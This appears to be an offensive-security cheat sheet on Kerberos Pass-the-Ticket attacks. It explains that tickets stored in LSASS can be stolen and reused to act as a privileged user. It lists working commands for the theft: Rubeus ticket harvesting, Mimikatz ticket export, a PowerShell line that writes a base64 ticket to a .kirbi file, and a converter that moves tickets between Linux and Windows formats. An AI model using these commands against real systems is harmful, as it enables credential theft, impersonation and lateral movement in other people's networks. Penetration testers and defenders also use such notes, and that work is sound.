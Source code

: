 # Pass The Ticket - Ticket Dump
Don't create tickets, steal them from cache! With Pass-the-Ticket attacks, a threat actor won’t be forging Kerberos tickets. Instead, they will steal valid tickets that have already been created and issued, and pass them from one system to another in order to access resources as a legitimate, privileged user. 

The TGT and STs are located in the LSASS (Local Security Authority Subsystem Service)

User privilege: get TGT and TSs from user on system
Admin privilege: get all TGTs and TGs from all users on system

Requirements:
* Access to a machine


`Rubeus.exe harvest /interval:30`




User can request owned tickets, admin can request all.
`Mimikatz`
	sekurlsa::tickets /export
	exit
`\[IO.File\]::WriteAllBytes("ticket.kirbi", \[Convert\]::FromBase64String("<BASE64\_TICKET>"))`

## Swapping tickets between Linux-Windows
`python ticket_converter.py <LINUX.ccache> <WINDOWS.kirbi>`
`python ticket_converter.py <WINDOWS.kirbi> <LINUX.ccache>`